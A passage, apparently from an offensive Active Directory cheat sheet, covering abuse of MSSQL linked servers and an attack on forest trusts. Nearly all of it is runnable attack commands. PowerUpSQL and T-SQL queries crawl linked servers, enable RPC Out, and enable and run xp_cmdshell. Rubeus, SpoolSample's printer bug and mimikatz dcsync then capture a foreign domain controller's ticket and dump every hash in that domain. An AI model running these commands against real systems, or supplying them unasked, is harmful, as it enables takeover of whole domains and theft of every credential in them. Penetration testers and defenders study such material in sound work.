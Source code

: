 Check for existing Database Links:

```
#Check for existing Database Links:
#PowerUpSQL:
Get-SQLServerLink -Instance <SPN> -Verbose

#MSSQL Query:
select * from master..sysservers
```

Then we can use queries to enumerate other links from the linked Database:

```
#Manualy:
select * from openquery("LinkedDatabase", 'select * from master..sysservers')

#PowerUpSQL (Will Enum every link across Forests and Child Domain of the Forests):
Get-SQLServerLinkCrawl -Instance <SPN> -Verbose

# Enable RPC Out (Required to Execute XP_CMDSHELL)
EXEC sp_serveroption 'sqllinked-hostname', 'rpc', 'true';
EXEC sp_serveroption 'sqllinked-hostname', 'rpc out', 'true';
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc'',''true'';');
select * from openquery("SQL03", 'EXEC sp_serveroption ''SQL03'',''rpc out'',''true'';');

#Then we can execute command on the machine's were the SQL Service runs using xp_cmdshell
#Or if it is disabled enable it:
EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "SPN"
```

Query execution:

`Get-SQLServerLinkCrawl -Instace <SPN> -Query "exec master..xp_cmdshell 'whoami'"`

### **Breaking Forest Trusts**

_If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation (DCs have this by default), we can use the printerbug to force the DC of the external forest's root domain to authenticate to us. Then we can capture it's TGT, inject it into memory and DCsync to dump it's hashes, giving ous complete access over the whole forest._

Tools we are going to use:

- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

Exploitation example:

`#Start monitoring for TGTs with rubeus: Rubeus.exe monitor /interval:5 /filteruser:target-dc

#Execute the printerbug to trigger the force authentication of the target DC to our machine SpoolSample.exe target-dc.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory: Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz: lsadump::dcsync /domain:external.forest.local /all`